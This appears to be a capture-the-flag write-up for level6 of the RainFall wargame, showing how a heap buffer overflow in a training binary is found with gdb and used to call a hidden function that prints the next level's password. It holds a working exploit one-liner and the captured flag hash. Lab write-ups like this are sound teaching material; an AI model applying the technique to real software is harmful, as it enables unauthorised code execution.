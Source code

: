 # level6

```sh
➜  ~ ssh level6@127.0.0.1 -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_v|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
level6@127.0.0.1's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
level6@RainFall:~$
```

```sh
level6@RainFall:~$ ./level6 'Joyboy... Has returned !'
Nope
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ 
```

![binary 6](Ressources/binery_6-hex-rays.png)

- The `main` function declares 2 variable and allocate memory for them : `v5` `0x40u` (64 bytes) and `v6` `0x4u` (4 bytes) and `v4` call the `m` function, then the `strcpy` function is call. It copy the first argument `argv[1]` in `v5`. **`v5` has a buffer of 64 bytes**.
- `m` return the function `puts` with the string "`Nope`" only.
- The hidden and non-used function `n` return `system("/bin/cat /home/user/level7/.pass")`.

# Vulnerability : <u>Heap Buffer overflow Attack</u>

(__It's ridiculous...__)

**Objective** : Overflow the buffer (stocked in the heap) to call the hidden function `n`

## 1. Find the offset to reach the return address (for more details how to find the offset, see the [level2 walkthrough](https://github.com/Nimpoo/rainfall/tree/main/level2))

**A heap buffer overflow** is a type of buffer overflow that occurs in the heap data area. Heap overflows are exploitable in a different manner to that of stack-based overflows. Memory on the heap is dynamically allocated by the application at runtime and typically contains program data. Exploitation is performed by corrupting this data in specific ways to cause the application to overwrite internal structures such as linked list pointers. The canonical heap overflow attack involves causing the application to overwrite a function pointer or exception handler, which is then executed.

```sh
# Example of a heap buffer overflow attack
./vulnerable_program $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
```

```sh
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
(gdb)
```

### Offset = 72

## 2. Find the address of the hidden function `n`

```sh
(gdb) print n
$1 = {<text variable, no debug info>} 0x8048454 <n>
(gdb)
```

### Address of `n` = `0x8048454` (`\x54\x84\x04\x08`)

## 3. Construct the payload

```sh
level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
level6@RainFall:~$
```

# ??????? SO EASY ???????

Let's go to the next level I supposed...

```sh
level6@RainFall:~$ su level7
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
level7@RainFall:~$
```

# level6 complet !
![yeah](../assets/yeah.gif)
